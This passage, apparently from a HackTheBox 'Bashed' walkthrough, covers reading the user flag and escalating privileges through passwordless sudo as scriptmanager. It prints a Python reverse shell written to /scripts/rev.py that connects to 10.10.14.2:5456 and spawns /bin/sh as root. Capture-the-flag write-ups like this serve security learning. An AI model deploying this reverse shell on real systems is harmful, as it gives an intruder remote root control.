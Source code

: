 Apparently we can read user flag so we grab it:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/bashed/5_0_user.png" width="90%"/>
</p>


## Privesc

I didn't try sudo -l because I never saw www-data with sudo capabilities, but seems like we can run sudo with no password for user scriptmanager:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/bashed/5_1_sudo.png" width="90%"/>
</p>

So we create a revshell using sudo as scriptmanager, then wait for it to execute as root (id 0):

```bash
sudo -u scriptmanager nano /scripts/rev.py
```

```python
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",5456))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
